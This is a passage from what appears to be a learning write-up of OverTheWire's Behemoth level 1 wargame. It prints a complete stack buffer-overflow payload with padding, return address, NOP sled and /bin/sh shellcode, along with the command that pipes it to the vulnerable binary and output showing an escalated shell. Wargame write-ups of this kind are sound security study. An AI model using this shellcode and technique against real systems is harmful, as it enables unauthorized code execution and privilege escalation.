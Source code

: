 Nice and easy. Obviously change the address to whatever it happens to be on your end.

Now we'll use this instead of the placeholder we used early for the memory jump (those BBBB's), and we'll finally tack on that [shellcode] we generated earlier. Our [payload] finally ends up looking something like...

```
python -c "print 'A'*79 + '\xf0\xd6\xff\xff' + '\x90'*50 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80'"> payload
```

Our [payload] is complete! If we feed it to the program outside of [`gdb`][gdb], it should execute a shell for us and let us do whatever we would like, all thanks to our [shellcode] and [buffer overflow].

Now in order to actually play with the shell (send it input and see its output), we actually have to [`cat`][cat] it out. But at the same time, we have to supply the payload file. How do we do this!?

Thanfully, you can batch or kind of combine commands within [bash] with parentheses and then semi-colons separating each command. So it essentially looks like:

```
behemoth1@melinda:/tmp/cyber$ (cat payload; cat) | /behemoth/behemoth1
Password: Authentication failure.
Sorry.

```

There is no prompt, but we've got a shell. Check it out!

```
behemoth1@melinda:/tmp/cyber$ (cat payload; cat) | /behemoth/behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
```

Of course you can now [`cat`][cat] the password for the next level. And we're all done!


Notes
----

If you happened to run the complete [payload] within [`gdb`][gdb], you'll notice the [shellcode] actually executes [`dash`][dash] rather than [`bash`][bash]. That's totally okay. It is still a shell, you can do what you need to, and it should always be installed by default.

On another note, __I had a really hard time trying to solve this challenge__. Until I began this writeup, I could not successfully complete a [buffer overflow]. I had been banging my head against the wall for _weeks_. I resorted to looking up some solutions to this challenge online, and I found [a](http://r4stl1n.github.io/2014/12/14/OverTheWire-Behemoth1.html) [good](http://hacktracking.blogspot.com/2013/03/behemoth-wargame-level-1.html) [amount](http://blog.techorganic.com/2015/01/21/overthewire-behemoth-writeup/), but I could not get them to work on my end. I eventually stumbled upon [a video solution](https://www.youtube.com/watch?v=6Fnvzx0xkrU), and had success.

That is the process I tried to recreate and completely _explain_ throughout this writeup. I feel as though I now understand it, and I'm pretty happy I was able to put this all together. I know this is a very _very_ long writeup, but I hoped to be as explicit and descriptive as possible with every aspect.


[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[gets]: http://www.cplusplus.com/reference/cstdio/gets/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell